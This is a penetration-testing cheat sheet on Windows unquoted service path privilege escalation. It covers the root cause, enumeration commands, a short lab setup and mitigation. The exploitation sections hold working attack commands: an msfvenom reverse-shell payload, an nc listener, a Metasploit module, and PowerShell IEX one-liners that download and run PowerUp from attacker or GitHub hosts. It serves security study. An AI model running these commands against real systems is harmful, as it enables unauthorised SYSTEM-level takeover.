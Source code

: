 ```yaml
---
title: "Unqoted Service Paths"
tags: 
- sheet
---
```


When a **service** is created whose **executable path** contains **_spaces_** and isn’t enclosed within **_quotes_**, leads to a vulnerability known as Unquoted Service Path which allows a user to gain **SYSTEM** privileges *(only if the vulnerable service is running with SYSTEM privilege level which most of the time it is)*. This happens due to how Windows handles spaces: if the service is not enclosed within quotes & is having spaces => it would handle the space as a break and pass the rest of the service path as an argument.


## Root Cause
This is caused by the [CreateProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function which creates a new process. More specifically the `lpApplicationName` string parameter which can be the full path / filename of the module to be executed. If the filename is a long string spanning acrosss multiple sub directories, contains spaces and is not enclosed in quotation marks, it will be executed in the order from left to right until the space is reached & will append `.exe` @ the end of this spaced path. 

### Example
- Consider the following path: `C:\Program Files\A Sub\B Sub\C Sub\executeMe.exe`
- In order to run `executeMe.exe` the Windows API will interpret it in the following order
	- `C:\Program.exe`
	- `C:\Program Files\A.exe`
	- `C:\Program Files\A Sub\B.exe`
	- `C:\Program Files\A Sub\B Sub\C.exe`
	- `C:\Program Files\A Sub\B Sub\C Sub\executeMe.exe`
- If `Program.exe` is not found, then `A.exe` will be executed and so on



## CheckList
- [ ] List all unquoted service paths *(minus built-in Windows services)*. Are there any available?
	```bash
	wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
	wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """
	gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name # (PS)
	```
- [ ] With what priviliges is the targetted service running *(should be as `LocalSystem`)* & what's the absolute path of the executable ?
	```bash
	sc qc <service-name> 
	# Look for the following
	#  START_TYPE is it AUTO_START?
	#  BINARY_PATH_NAME
	#  SERVICE_START_NAME
	```
- [ ] Does your user have write access in one of the folders where the binary path resides?
	```bash
	# Do this for every one of them 
	icacls "C:\path\to\dir\of\your\subdir"
	Get-acl 'C:\path\to\dir' | % {$_.access}   # (PS)
	# Looking for write acesss on one of your groups (e.g BUILTIN\Users)
	```
- [ ] Do u have the rights to restart the service? If not, it should be an auto-start service so that upon rebooting the system it communicates with the [Service Control Manager](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager) & gets your payload executed
	```bash
	# If you're confused about what this command spits out
	# check out this: http://woshub.com/set-permissions-on-windows-service/
	sc sdshow <service-name>
	```

## Exploitation
Considering that we have a low privilege shell already on the target system & all of the requirments above are met. Then we can just drop our malicious executable `B.exe` in `C:\Program Files\A Sub\`. When the system boots, Windows auto starts some of its services. Services on Windows communicate with the [_Service Control Manager_](https://en.wikipedia.org/wiki/Service_Control_Manager) which is responsible to start, stop and interact with these service processes. It starts this service with whatever privileges it has to run, thus letting us run whatever we want as `SYSTEM`*(read more [here](https://stackoverflow.com/questions/510170/the-difference-between-the-local-system-account-and-the-network-service-acco) about differences between accounts & privileges)*

> For a more concrete example check out [[write-ups/thm/Steel Mountain#Privesc w Unquoted Service Path]] 

### Manual
```bash
# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=wlan0 LPORT=1337 -f exe -o B.exe

# Transfer to target

# through impacket's smb server
host: python /usr/share/doc/python-impacket/examples/smbserver.py sharedfolder .
target: copy \\LHOST\sharedfolder\B.exe .
# or powershell
powershell -Command Invoke-WebRequest -Uri http://LHOST/B.exe -OutFile B.exe

# Start listener 
nc -nvlp 1337

# Restart service & profit
sc stop <service-name>
sc start <service-name>
# if access is denied just reboot
shutdown /r /t 0
```


### Metasploit

```bash
# Setup listener
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost <ip>
set lport <port>
exploit -j

# Exploit
use exploit/windows/local/trusted_service_path  
set session 1  
exploit
```

### PowerSploit
- Get a local copy of [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
```bash
# Setup local http/smb server to serve PowerUp

# Call Get-ServiceUnquoted from PowerUp without touching the disk
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://LHOST/PowerUp.ps1');Get-ServiceUnquoted"

# Checks for every spaced path, whether the context of the cmd shell  have write/modify access or not.
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Get-ChildItem C:\ -Recurse | Get-ModifiablePath"

# patches the command given to it as an argument to the pre-compiled C# executable service binary to the specified path.
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Write-ServiceBinary -Name 'Some Vulnerable Service' -Command '\\LHOST\sharedfolder\B.exe' -Path 'C:\Program Files\A Subfolder\B.exe'"
```


## Lab Environment Setup

### Creating users
```bash
# Create a new user & add him to the Administrators group
net user dumbadmin /add
net localgroup Administrators dumbadmin /add
net localgroup Users dumbadmin /delete

# Create a low-privileged user
net user normie /add
```

This is what you should have now

![[write-ups/images/Pasted image 20220821085517.png]]

### Deploy vulnerable service
Login as the `dumbadmin` user & spawn a priviliged command prompt, then use [sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) to create the service
```bash
sc create "Vulnerable Service" binpath= "C:\Program Files\A Sub\B Sub\C Sub\ape.exe" Displayname= "Service Vuln to Unqoted Service Path" start= auto
```

Now create the folders & assign write permissions to `BUILTIN\Users` on `A Sub` or `B Sub` using [icacls](https://ss64.com/nt/icacls.html)
```bash
mkdir "C:\Program Files\A Sub\B Sub\C Sub"
icacls "C:\Program Files\A Sub"
icacls "C:\Program Files\A Sub" /grant "BUILTIN\Users":W
```

![[write-ups/images/Pasted image 20220821090209.png]]

The part we're interested in is the first line: `A Sub BUILTIN\Users:(W)`. This confirms that any normal users have write access to the `A Sub` directory
To finally verify that everything is running as expected we can find every service which isn't enclosed in double quotes

![[write-ups/images/Pasted image 20220821090532.png]]

## Mitigation
Gets all the services from `HKLM\SYSTEM\CurrentControlSet\services` & find those services with spaces and without quotes, prepends and appends double quotes to the service binary executable and fixes it.

## Refs
- [Windows Privilege Escalation — Part 1 (Unquoted Service Path)](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)
- [Hijack Execution Flow: Path Interception by Unqoted Path -- MITRE](https://attack.mitre.org/techniques/T1574/009/)

## See Also